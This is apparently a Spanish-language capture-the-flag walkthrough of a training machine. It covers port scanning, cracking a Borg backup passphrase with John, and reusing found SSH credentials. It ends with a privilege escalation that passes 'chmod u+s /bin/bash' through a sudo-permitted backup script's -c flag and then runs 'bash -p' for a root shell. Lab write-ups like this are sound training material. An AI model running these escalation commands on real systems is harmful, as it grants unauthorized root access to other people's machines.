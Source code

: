 ### nmap 
```python
Nmap scan report for 10.10.154.71
Host is up (0.23s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 56.84 seconds
```

### Ports:
```c
	22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
	8080/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
```

### en la pagina podemos encontrar archivos de configuracion que podemos descargar

![[Pasted image 20231107222735.png]]
descargamos esto para echar un vistazo.
### parece que estamos ante un repositorio. debemos descargarlo configurarlo y montarlo para saber que hay dentro.

### instalacion
```java
	sudo apt install borgbackup   
```
### montamos el directorio de la siguiente manera:
```python
borg mount /home/kali/Desktop/thm/Cyborg/home/field/dev/final_archive /home/kali/Desktop/thm/Cyborg/repository
```
al montar el directorio nos pide una clave la cual buscaremos con john.

![[Pasted image 20231107231024.png]]
buscaremos la clave en el archivo que conseguimos en la pagina llamado passwd utilizaremos john para intentar sacar la clave
![[Pasted image 20231107231157.png]]
### clave
```c
squidward
```

### al montar el repositorio navegamos entre las carpetas y conseguimos algo interesante:
![[Pasted image 20231107232642.png]]
### Credenciales:
```c
alex : S3cretP@s3
```
conseguimos lo que parece ser credenciales del usuario alex. vamos a mirar el pueto 22 SSH las credenciales de alex que hemos conseguido
![[Pasted image 20231107233123.png]]
### escalar privilegios: ejecutamos sudo -l 
![[Pasted image 20231108001114.png]]
parece que todo los usuarios tienen todos los permisos sobre /etc/mp3/backups/backup.sh
vamos hacer un cat para ver que hace este archivo
![[Pasted image 20231108001510.png]]
![[Pasted image 20231108001557.png]]

### parece que el la primera parte del script define una flag y la llama c y al final del script le dice que cmd=$( $ command) 

al parecer todo lo que le indiquemos al script con la flag -c sera igual a comandos ejecutados por cmd. asi que usaremos esto para llamar una bash como root con el siguiente codigo.

llamamos al scritp como sudo de la siguiente forma.
```python
	sudo /etc/mp3backups/backup.sh 
```
llamamos la bandera c y aprovecharemos esto para darle permisos a la bash como usuario root. para despues llamarla. de la siguiente manera.
```python
	sudo /etc/mp3backups/backup.sh -c "chmod u+s /bin/bash"
```
### hacemos bash -p
![[Pasted image 20231108002744.png]]
### hemos cambiado los permisos de la bash para que se ejecute como sudo y cuando hacemos bash -p nos da una bash como root